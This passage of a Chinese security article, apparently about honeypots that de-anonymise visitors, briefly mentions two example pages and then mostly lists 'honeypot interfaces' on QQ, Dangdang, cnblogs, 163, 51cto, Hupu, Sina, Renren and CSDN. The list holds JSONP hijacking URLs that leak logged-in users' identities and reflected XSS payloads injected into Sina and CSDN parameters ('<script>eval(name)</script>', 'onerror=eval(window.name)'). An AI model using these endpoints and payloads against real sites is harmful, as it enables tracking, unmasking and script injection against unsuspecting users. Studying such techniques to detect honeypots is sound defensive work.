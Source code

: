 实战一：可以看到body中存在src网站的接口

图片

这时候已经有大量的数据包已经发出去了

实战二：非常正常的网页
0x05 蜜罐接口

qq接口
r.inews.qq.com/api/ip2city?otype=jsonp&_=1636958117616&callback=jQuery110206967149572043403&_1658332281840=

u.y.qq.com/cgi-bin/musicu.fcg?data={%22HG%22%3A{%22module%22%3A%22Base.VideoFeedsUrlServer%22%2C%22method%22%3A%22GetVideoFeedsUrl%22%2C%22param%22%3A{%22fileid%22%3A%220_11_013ee9171515dd784f7988b354084cf1a294299e.zip%22}}%2C%22DB%22%3A{%22module%22%3A%22ScoreCenter.ScoreCenterEx%22%2C%22method%22%3A%22free_login%22%2C%22param%22%3A{%22test%22%3A0%2C%22redirect%22%3A%22https%3A%2F%2Factivity.m.duiba.com.cn%2Fsubpage%2Findex%3FskinId%3D1049%22%2C%22activeId%22%3A0%2C%22activeType%22%3A%22%22}}%2C%22A%22%3A{%22module%22%3A%22CDN.SrfCdnDispatchServer%22%2C%22method%22%3A%22GetCdnDispatch%22%2C%22param%22%3A{%22guid%22%3A%22MS%22}}%2C%22B%22%3A{%22module%22%3A%22VipActivity.AwardPay%22%2C%22method%22%3A%22GetPayRank%22%2C%22param%22%3A{%22actid%22%3A%22D8D2CAAC126AE8FB%22%2C%22pagesize%22%3A0}}%2C%22C%22%3A{%22module%22%3A%22login.BasicinfoServer%22%2C%22method%22%3A%22CallBasicInfo%22%2C%22param%22%3A{}}}&callback=jsonp1658332281481

当当网
message.dangdang.com/api/msg_detail.php?customer_id=o4P00TweebicwjhS72NWew%3D%3D&data_type=jsonp&pageindex=1&module=1&pagesize=20&_=1596772198527&callback=jsonp1658332281478

cnblogs
passport.cnblogs.com/user/LoginInfo?callback=test

163接口
comment.api.163.com/api/v1/products/a2869674571f77b5a0867c3d71db5856/users/myInfo?callback=jsonp1658332281479

51cto
home.51cto.com/Index/getLoginStatus2015/reback/http%253A%252F%252Fwww.51cto.com%252F

https://home.51cto.com/index.php?s=/Index/getLoginStatus2015/reback/http%253A%252F%252Fwww.51cto.com%252F&xxoo=chrome-extension://

虎扑
remind.hupu.com/api/getRemindNum.api.php?contenttype=js&url=https%3A%2F%2Fbbs.hupu.com%2F40032955.html 

新浪
m.iask.sina.com.cn/cas/logins?domain=iask.sina.com.cn&popup=show&clsId=undefined&channel=null&businessSys=iask&fid=%22%3E%3Cscript%3Eeval(name)%3C/script%3E

https://login.sina.com.cn/sso/prelogin.php?entry=weibo&su=&rsakt=mod&client=ssologin.js(v1.4.19)&&callback=%3C%3E

人人
passport.game.renren.com/user/info?callback=jsonp1658332281480

csdn
api.csdn.net/oauth/authorize?client_id=1000001&redirect_uri=http://www.iteye.com/auth/csdn/callback&response_type=%22https%3A%2F%2Fapi.csdn.net%2Foauth%2Fauthorize%3Fclient_id%3D1000001%26redirect_uri%3D%22http%3A%2F%2Fwww.iteye.com%2Fauth%2Fcsdn%2Fcallback%26response_type%3D%22%3E%3Cimg%20src%3Dx%20onerror%3Deval(window.name)%3E
